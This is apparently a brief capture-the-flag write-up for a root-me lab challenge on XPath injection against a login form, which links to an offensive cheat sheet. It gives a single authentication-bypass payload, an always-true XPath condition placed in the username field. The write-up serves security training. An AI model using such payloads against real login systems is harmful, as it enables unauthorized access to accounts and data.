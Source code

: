 # XPath injection: authentication

[root-me challenge: XPath injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Authentication): retrieve the administrator password.

----

Using [Offensive Security Cheatsheet: XPath Injections](https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/xpath/):

```text
username=John' or '1'='1&password=
```
